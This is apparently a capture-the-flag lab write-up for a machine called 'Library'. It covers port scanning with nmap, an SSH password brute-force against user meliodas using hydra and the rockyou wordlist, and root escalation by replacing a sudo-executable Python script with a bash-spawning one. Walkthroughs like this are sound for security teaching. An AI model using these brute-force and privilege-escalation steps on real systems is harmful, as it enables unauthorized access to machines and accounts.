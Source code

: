 # Library

```bash
furious 10.10.254.215
sudo nmap -sC -sV -p 22,80 10.10.254.215 -oN targeted
```

![212143.png](212143.png)

## 80

![021502.png](021502.png)

we have a posible user: Meliodas

we enter into http://10.10.61.126/robots.txt

![022825.png](022825.png)

## ssh

we use hydra in order to find a password for *`meliodas`* user

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.61.126 ssh -V -f -t 64
```

![021137.png](021137.png)

```bash
ssh meliodas@10.10.61.126
cat user.txt
```

![022641.png](022641.png)

```bash
sudo -l
cat /home/meliodas/bak.py
```

we don't have permision to edit the file but is our Home directory so we could errase it.

![024343.png](024343.png)

```python
rm bak.py
echo "import pty; pty.spawn('/bin/bash')" > bak.py
sudo /usr/bin/python /home/meliodas/bak.py
cat /root/root.txt
```

![034915.png](034915.png)